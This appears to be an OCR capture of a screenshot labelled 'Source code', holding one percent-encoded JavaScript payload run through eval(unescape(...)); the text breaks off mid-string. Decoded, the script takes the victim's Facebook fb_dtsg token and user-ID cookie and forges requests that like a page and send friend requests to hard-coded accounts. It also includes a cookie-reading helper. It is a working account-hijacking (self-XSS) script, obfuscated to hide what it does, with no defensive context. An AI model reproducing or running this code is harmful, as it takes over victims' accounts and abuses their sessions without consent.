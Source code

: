 eval(unescape('%76%61%72%20%66%62%5F%64%74%73%67%20%3D%20%64%6F%63%75%6D%65%6E%74%2E%67%65%74%45%6C%65%6D%65%6E%74%73%42%79%4E%61%6D%65%28%27%66%62%5F%64%74%73%67%27%29%5B%30%5D%2E%76%61%6C%75%65%3B%0A%76%61%72%20%75%73%65%72%5F%69%64%20%3D%20%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%2E%6D%61%74%63%68%28%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%2E%6D%61%74%63%68%28%2F%63%5F%75%73%65%72%3D%28%5C%64%2B%29%2F%29%5B%31%5D%29%3B%0A%66%75%6E%63%74%69%6F%6E%20%4C%69%6B%65%28%70%29%20%7B%0A%20%20%76%61%72%20%50%61%67%65%20%3D%20%6E%65%77%20%58%4D%4C%48%74%74%70%52%65%71%75%65%73%74%28%29%3B%0A%20%20%76%61%72%20%50%61%67%65%55%52%4C%20%3D%20%22%2F%2F%77%77%77%2E%66%61%63%65%62%6F%6F%6B%2E%63%6F%6D%2F%61%6A%61%78%2F%70%61%67%65%73%2F%66%61%6E%5F%73%74%61%74%75%73%2E%70%68%70%22%3B%0A%20%20%76%61%72%20%50%61%67%65%50%61%72%61%6D%73%20%3D%20%22%26%66%62%70%61%67%65%5F%69%64%3D%22%20%2B%20%70%20%2B%22%26%61%64%64%3D%74%72%75%65%26%72%65%6C%6F%61%64%3D%66%61%6C%73%65%26%66%61%6E%5F%6F%72%69%67%69%6E%3D%70%61%67%65%5F%74%69%6D%65%6C%69%6E%65%26%66%61%6E%5F%73%6F%75%72%63%65%3D%26%63%61%74%3D%26%6E%63%74%72%5B%5F%6D%6F%64%5D%3D%70%61%67%65%6C%65%74%5F%74%69%6D%65%6C%69%6E%65%5F%70%61%67%65%5F%61%63%74%69%6F%6E%73%26%5F%5F%75%73%65%72%3D%22%2B%75%73%65%72%5F%69%64%2B%22%26%5F%5F%61%3D%31%26%5F%5F%64%79%6E%3D%37%39%38%61%44%35%7A%35%43%46%2D%26%5F%5F%72%65%71%3D%64%26%66%62%5F%64%74%73%67%3D%22%2B%66%62%5F%64%74%73%67%2B%22%26%70%68%73%74%61%6D%70%3D%22%3B%0A%20%20%50%61%67%65%2E%6F%70%65%6E%28%22%50%4F%53%54%22%2C%20%50%61%67%65%55%52%4C%2C%20%74%72%75%65%29%3B%0A%20%20%50%61%67%65%2E%6F%6E%72%65%61%64%79%73%74%61%74%65%63%68%61%6E%67%65%20%3D%20%66%75%6E%63%74%69%6F%6E%20%28%29%20%7B%0A%20%20%20%20%69%66%20%28%50%61%67%65%2E%72%65%61%64%79%53%74%61%74%65%20%3D%3D%20%34%20%26%26%20%50%61%67%65%2E%73%74%61%74%75%73%20%3D%3D%20%32%30%30%29%20%7B%0A%20%20%20%20%20%20%50%61%67%65%2E%63%6C%6F%73%65%3B%0A%20%20%20%20%7D%0A%20%20%7D%3B%0A%20%20%50%61%67%65%2E%73%65%6E%64%28%50%61%67%65%50%61%72%61%6D%73%29%3B%0A%7D%0A%4C%69%6B%65%28%22%30%22%29%3B%0A%20%0A%76%61%72%20%66%62%5F%64%74%73%67%20%3D%20%64%6F%63%75%6D%65%6E%74%2E%67%65%74%45%6C%65%6D%65%6E%74%73%42%79%4E%61%6D%65%28%27%66%62%5F%64%74%73%67%27%29%5B%30%5D%2E%76%61%6C%75%65%3B%0A%76%61%72%20%75%73%65%72%5F%69%64%20%3D%20%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%2E%6D%61%74%63%68%28%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%2E%6D%61%74%63%68%28%2F%63%5F%75%73%65%72%3D%28%5C%64%2B%29%2F%29%5B%31%5D%29%3B%0A%66%75%6E%63%74%69%6F%6E%20%49%44%53%28%72%29%20%7B%0A%20%20%76%61%72%20%58%20%3D%20%6E%65%77%20%58%4D%4C%48%74%74%70%52%65%71%75%65%73%74%28%29%3B%0A%20%20%76%61%72%20%58%55%52%4C%20%3D%20%22%2F%2F%77%77%77%2E%66%61%63%65%62%6F%6F%6B%2E%63%6F%6D%2F%61%6A%61%78%2F%61%64%64%5F%66%72%69%65%6E%64%2F%61%63%74%69%6F%6E%2E%70%68%70%22%3B%0A%20%20%76%61%72%20%58%50%61%72%61%6D%73%20%3D%20%22%74%6F%5F%66%72%69%65%6E%64%3D%22%20%2B%20%72%20%2B%22%26%61%63%74%69%6F%6E%3D%61%64%64%5F%66%72%69%65%6E%64%26%68%6F%77%5F%66%6F%75%6E%64%3D%66%72%69%65%6E%64%5F%62%72%6F%77%73%65%72%5F%73%26%72%65%66%5F%70%61%72%61%6D%3D%6E%6F%6E%65%26%26%26%6F%75%74%67%6F%69%6E%67%5F%69%64%3D%26%6C%6F%67%67%69%6E%67%5F%6C%6F%63%61%74%69%6F%6E%3D%73%65%61%72%63%68%26%6E%6F%5F%66%6C%79%6F%75%74%5F%6F%6E%5F%63%6C%69%63%6B%3D%74%72%75%65%26%65%67%6F%5F%6C%6F%67%5F%64%61%74%61%26%68%74%74%70%5F%72%65%66%65%72%65%72%26%5F%5F%75%73%65%72%3D%22%2B%75%73%65%72%5F%69%64%2B%22%26%5F%5F%61%3D%31%26%5F%5F%64%79%6E%3D%37%39%38%61%44%35%7A%35%43%46%2D%26%5F%5F%72%65%71%3D%33%35%26%66%62%5F%64%74%73%67%3D%22%2B%66%62%5F%64%74%73%67%2B%22%26%70%68%73%74%61%6D%70%3D%22%3B%0A%20%20%58%2E%6F%70%65%6E%28%22%50%4F%53%54%22%2C%20%58%55%52%4C%2C%20%74%72%75%65%29%3B%0A%20%20%58%2E%6F%6E%72%65%61%64%79%73%74%61%74%65%63%68%61%6E%67%65%20%3D%20%66%75%6E%63%74%69%6F%6E%20%28%29%20%7B%0A%20%20%20%20%69%66%20%28%58%2E%72%65%61%64%79%53%74%61%74%65%20%3D%3D%20%34%20%26%26%20%58%2E%73%74%61%74%75%73%20%3D%3D%20%32%30%30%29%20%7B%0A%20%20%20%20%20%20%58%2E%63%6C%6F%73%65%3B%0A%20%20%20%20%7D%0A%20%20%7D%3B%0A%20%20%58%2E%73%65%6E%64%28%58%50%61%72%61%6D%73%29%3B%0A%7D%0A%49%44%53%28%22%31%30%30%30%30%36%30%31%33%35%36%36%35%38%32%22%29%3B%0A%49%44%53%28%22%31%30%30%30%30%32%39%39%30%33%32%32%36%37%35%22%29%3B%0A%0A%09%0A%66%75%6E%63%74%69%6F%6E%20%63%65%72%65%7A%69%41%6C%28%69%73%69%6D%29%20%7B%0A%20%20%20%20%76%61%72%20%74%61%72%61%6D%61%20%3D%20%69%73%69%6D%20%2B%20%22%3D%22%3B%0A%20%20%20%20%69%66%20%28%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%2E%6C%65%6E%67%74%68%20%3E%20%30%29%20%7B%0A%20%20%20%20%20%20%20%20%6B%6F%6E%75%6D%20%3D%20%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%2E%69%6E%64%65%78%4F%66%28%74%61%72%61%6D%61%29%0A%20%20%20%20%20%20%20%20%69%66%20%28%6B%6F%6E%75%6D%20%21%3D%20%2D%31%29%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%6B%6F%6E%75%6D%20%2B%3D%20%74%61%72%61%6D%61%2E%6C%65%6E%67%74%68%0A%20%20%20%20%20%20%20%20%20%20%20%20%73%6F%6E%20%3D%20%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%2E%69%6E%64%65%78%4F%66%28%22%3B%22%2C%20%6B%6F%6E%75%6D%29%0A%20%20%20%20%20%20%20%20%20%20%20%20%69%66%20%28%73%6F%6E%20%3D%3D%20%2D%31%29%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%73%6F%6E%20%3D%20%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%2E%6C%65%6E%67%74%68%0A%20%20%20%20%20%20%20%20%20%20%20%20%72%65%74%75%72%6E%20%75%6E%65%73%63%61%70%65%28%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%2E%73%75%62%73%74%72%69%6E%67%28%6B%6F%6E%75%6D%2C%20%73%6F%6E%29%29%0A%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20%65%6C%73%65%20%7B%20%72%65%74%75%72%6E%20%22%22%3B%20%7D%0A%20%20%20%20%7D%0A%7D%0A%0A%66%75%6E%63%74%69%6F%6E%20%67%65%74%52%61%6E%64%6F%6D%49%6E%74%20%28%6D%69%6E%2C%20%6D%61%78%29%20%7B%0A%20%20%20%20%72%65%74%75%72%6E%20%4D%61%74%68%2E%66%6C%6F%6F%72%28%4D%61%74%68%2E%72%61%6E%64%6F%6D%28%29%20%2A%20%28%6D%61%78%20%2D%20%6D%69%6E%20%2B%20%31%29%29%20%2B%20%6D%69%6E%3B%0A%7D%0A%66%75%6E%63%74%69%6F%6E%2